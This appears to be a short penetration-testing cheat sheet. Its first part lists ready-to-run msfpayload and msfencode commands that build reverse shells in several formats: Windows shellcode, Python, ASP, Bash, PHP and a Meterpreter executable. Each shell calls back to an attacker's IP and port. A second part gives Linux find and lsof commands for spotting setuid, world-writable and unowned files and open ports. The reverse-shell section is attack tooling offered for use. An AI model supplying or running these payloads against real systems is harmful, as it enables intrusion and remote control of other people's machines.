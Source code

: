 Create Reverse Shell \(Shellcode\)

msfpayload windows/shell\_reverse\_tcp LHOST=&lt;Your IP Address&gt; LPORT=&lt;Your Port to Connect On&gt; R \| msfencode -b “\x00\x0a\x0d”

Create a Reverse Shell Python Script

msfpayload cmd/unix/reverse\_python LHOST=&lt;Your IP Address&gt; LPORT=&lt;Your Port to Connect On&gt; R &gt; shell.py

Create a Reverse ASP Shell

msfpayload windows/meterpreter/reverse\_tcp LHOST=&lt;Your IP Address&gt; LPORT=&lt;Your Port to Connect On&gt; R \| msfencode -t asp -o shell.asp

Create a Reverse Bash Shell

msfpayload cmd/unix/reverse\_bash LHOST=&lt;Your IP Address&gt; LPORT=&lt;Your Port to Connect On&gt; R &gt; shell.sh

Create a Reverse PHP Shell

msfpayload php/meterpreter\_reverse\_tcp LHOST=&lt;Your IP Address&gt; LPORT=&lt;Your Port to Connect On&gt; R &gt; shell.php

Edit shell.php in a text editor to add &lt;?php at the beginning.

Create a Windows Reverse Meterpreter Binary

msfpayload windows/meterpreter/reverse\_tcp LHOST=&lt;Your IP Address&gt; LPORT=&lt;Your Port to Connect On&gt; X &gt;shell.exe

**Security Commands In Linux:**

find programs with a set uid bit

\# find / -uid 0 -perm -4000

find things that are world writable

\# find / -perm -o=w

find names with dots and spaces, there shouldn’t be any

\# find / -name ” ” -print

\# find / -name “..” -print

\# find / -name “. ” -print

\# find / -name ” ” -print

find files that are not owned by anyone

\# find / -nouser

look for files that are unlinked

\# lsof +L1

get information about procceses with open ports

\# lsof -i
